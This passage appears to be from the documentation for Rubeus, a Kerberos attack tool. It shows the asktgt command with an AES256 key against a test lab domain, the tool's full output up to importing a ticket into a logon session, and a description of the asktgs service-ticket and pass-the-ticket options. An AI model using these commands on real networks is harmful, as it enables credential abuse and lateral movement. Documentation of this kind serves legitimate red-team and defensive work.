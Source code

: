     C:\Rubeus>Rubeus.exe asktgt /user:dfm.a /domain:testlab.local /aes256:e27b2e7b39f59c3738813a9ba8c20cd5864946f179c80f60067f5cda59c3bd27 /createnetonly:C:\Windows\System32\cmd.exe

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3


    [*] Action: Create Process (/netonly)

    [*] Showing process : False
    [+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
    [+] ProcessID       : 7564
    [+] LUID            : 0x3c4c241

    [*] Action: Ask TGT

    [*] Using aes256_cts_hmac_sha1 hash: e27b2e7b39f59c3738813a9ba8c20cd5864946f179c80f60067f5cda59c3bd27
    [*] Target LUID : 63226433
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building AS-REQ (w/ preauth) for: 'testlab.local\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 234 bytes
    [*] Received 1620 bytes
    [+] TGT request successful!
    [*] base64(ticket.kirbi):

        doIFujCCBbagAwIBBaEDAgEWooIEvzCCBL...(snip)...

    [*] Action: Import Ticket
    [*] Target LUID: 0x3c4c241
    [+] Ticket successfully imported!

**Note that the /luid and /createnetonly parameters require elevation!**


### asktgs

The **asktgs** action will build/parse a raw TGS-REQ/TGS-REP service ticket request using the specified TGT `/ticket:X` supplied. This value can be a base64 encoding of a .kirbi file or the path to a .kirbi file on disk. If a `/dc` is not specified, the computer's current domain controller is extracted and used as the destination for the request traffic. The `/ptt` flag will "pass-the-ticket" and apply the resulting service ticket to the current logon session. One or more `/service:X` SPNs **must** be specified, comma separated.

The supported encryption types in the constructed TGS-REQ will be RC4_HMAC, AES128_CTS_HMAC_SHA1, and AES256_CTS_HMAC_SHA1. In this case, the highest mutually supported encryption will be used by the KDC to build the returned service ticket. If you want to force DES, RC4, or AES128/256 keys, use `/enctype:[RC4|AES128|AES256|DES]`.

